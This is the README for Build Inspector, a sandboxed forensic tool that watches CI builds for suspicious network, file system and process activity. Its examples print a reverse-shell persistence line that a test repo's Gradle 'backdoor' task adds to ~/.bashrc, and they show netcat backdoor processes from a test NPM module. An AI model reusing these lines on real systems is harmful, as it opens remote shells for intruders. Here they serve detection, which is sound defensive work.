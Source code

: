 # Build Inspector

Build Inspector is a forensic sandbox for Continuous Integration environments.
Ever wonder what's happening during your builds? Build Inspector monitors network activity, file system changes, and running processes, making it easier to spot unintended and potentially dangerous activities. Using a sandboxed environment, build operations will happen in isolation without compromising the machine.

## Requirements

- [Ruby](https://www.ruby-lang.org/en/downloads/) (2.2.3<= Required)
- [Vagrant](https://www.vagrantup.com/)
- [Bundler](http://bundler.io/)

Once those are installed, add the [Sahara Vagrant plugin](https://github.com/jedi4ever/sahara)
and bundle install this project's dependencies:

```bash
vagrant plugin install sahara
git clone https://github.com/sourceclear/build-inspector.git
bundle install
```

## Running

Once you're set up, you'll work with Build Inspector from inside the repository's directory:

```bash
cd build_inspector
```

Build Inspector does not manage Vagrant for you, so you'll need to do that yourself.
The first time you use it, you'll need to start Vagrant and build the image:

```bash
vagrant up
```

Once vagrant is started, save a snapshot with:

```bash
vagrant sandbox on
```

### Usage

```
Usage inspector [options] <git repo path>
    -h, --help                       Display this screen
    -n, --no-rollback                Do not roll back the virtual machine state after running
    -v, --verbose                    Be verbose
    -c, --config <PATH>              Use configuration file at <PATH>, default=config.yml
    -p, --process <PATH>             Only process evidence at <PATH>
    -b, --branch <BRANCH>            Clone <BRANCH> from repository URL
        --url                        Git repo path is a URL
        --gem                        Perform a GEM based build
        --gradle                     Perform a Gradle based build
        --maven                      Perform a Maven based build
        --npm                        Perform a NPM based build

```

### Gradle Example

```bash
./inspector --gradle test-repos/TotallyLegitApp --script=insecure_network_finder
```

The above project has a task called `backdoor` that adds a reverse
connect shell to `~/.bashrc`.

After running, you should see this at the bottom of the output:

```
changed: ~/.bashrc
--- /backup/root/.bashrc	2014-02-19 21:43:56.000000000 -0500
+++ /root/.bashrc	2015-11-08 13:07:40.579626388 -0500
@@ -97,3 +97,5 @@
 #if [ -f /etc/bash_completion ] && ! shopt -oq posix; then
 #    . /etc/bash_completion
 #fi
+
+bash -c "bash -i>&/dev/tcp/localhost/1337 0>&1 &disown"&>/dev/null
```

In addition, you'll have a file that looks like
`evidence-TotallyLegitApp-201523110032412.zip` which has all the
network and process activity, file system changes, and any new processes.

### Bundler Example

```bash
./inspector --gem test-repos/harmless-project --script=insecure_network_finder
```

This bundler project has a gem that pings Google during its
installation.

Run it with Build Inspector and you'll see a list of domains
that the machine tried to connect to.

```
Hosts contacted:
  www.google.com (74.125.224.113)                                    1.3K
```

### NPM Example

```bash
./inspector --npm test-repos/ann-pee-am --script=insecure_network_finder
```

Inspecting this NPM project should yield the following output:

```
The following processes were running during the build:
  - /bin/sh -i
  - nc -l 0.0.0.0 8080
```

That's because the NPM project depends on a module that opens a
persistent backdoor using `netcat`.

### Configuration

Build Inspector monitors all network and file system activities. To ignore
hosts or exclude directories from the monitoring, create and add a
`config.yml` in the repository that looks like this:

```yaml
---

commands: bundle install --jobs 2

host_whitelist:
  - 10.0.2.2 # Vagrant's IP
  - 8.8.8.8 # Ignore DNS
  - bundler.rubygems.org
  - rubygems.global.ssl.fastly.net
  - rubygems.org

evidence_files:
  exclude:
    - /home/vagrant/.gem
  include:
    - /etc
```

There are examples for different build systems in the [configs](configs)
directory. You may copy the appropriate configs for your build system
to the root of this project or you can write one from scratch.

## Reporting Suspicious Builds

Help us understand what threats are out there in the wild by submitting any suspicious builds you encounter. This helps us protect against emerging threats, and ensure they're more widely known.

To submit a suspicious build, just click this link to create a new issue:
[Suspicious Build Issue Submission](https://github.com/sourceclear/build-inspector/issues/new?title=Suspicious%20Build%20Evidence&body=Where%20did%20you%20find%20this%20project%3F%0A%0AWhy%20do%20you%20think%20it%27s%20suspicious%3F%0A%0AAny%20other%20important%20details%3F%0A%0AHow%20are%20you%20doing%20today%3F).

Then just drag the evidence zip file to the issue you just created to attach it. Thanks in advance!

## Troubleshooting

If you're having a problem, try running `rake vagrant:test` and ensure your environment is setup correctly.

### Gradle Build Fails with java.lang.OutOfMemoryError

A build may work on the host machine but fail with BuildInspector because the Vagrant virtual machine has less memory available than the host machine. There are two ways to work around this issue.

#### Option 1: Modify [Vagrantfile](Vagrantfile)

This is the most direct option. This file is used to setup some properties of the virtual machine. The relevant section is:
```ruby
config.vm.provider 'virtualbox' do |vb|
  vb.customize ['modifyvm', :id, '--natdnsproxy1', 'off']
  vb.customize ['modifyvm', :id, '--natdnshostresolver1', 'off']
  vb.memory = 1024
end
```

Simply adjust `vb.memory = 1024` to some other number such as `vb.memory = 2000` then rebuild the machine with `rake vagrant:rebuild`. The Java VM determines heap space as a portion of total memory available. Increasing the memory will also increase the heap space.

#### Option 2: Adjust Java VM Heap Size

If you're unable to adjust the memory requirements for the Vagrant virtual machine, you can try to tell Gradle to tell the Java VM to allocate more heap space. This can be done by adding the following command to your configuration:

```bash
echo org.gradle.jvmargs=-Xmx2G >> gradle.properties
```

For example, `gradle.yml` is:

```yaml
commands: gradle build
```

After adding this command it would be:

```yaml
commands:
  - echo org.gradle.jvmargs=-Xmx2G >> gradle.properties
  - gradle build
```

## Development

When you want to experiment, just do:
`vagrant sandbox on`

Then, make all the changes you want to the image. If you'd like to save the changes, do:
`vagrant sandbox commit`

Otherwise, you can wipe out the changes with:
`vagrant sandbox rollback`

There are also a number of Rake tasks:
```
rake vagrant:commit    # Commits the machine's state
rake vagrant:destroy   # Destroy Vagrant image
rake vagrant:halt      # Gracefully stop Vagrant
rake vagrant:rebuild   # Equivalent to a `vagrant destroy && vagrant up`
rake vagrant:reload    # Equivalent to a `vagrant halt && vagrant up`
rake vagrant:rollback  # Restores the previously committed machine state
rake vagrant:test      # Check environment to determine if build-inspector should work
rake vagrant:up        # Start Vagrant
rake vagrant:update    # Upgrade Vagrant image
```
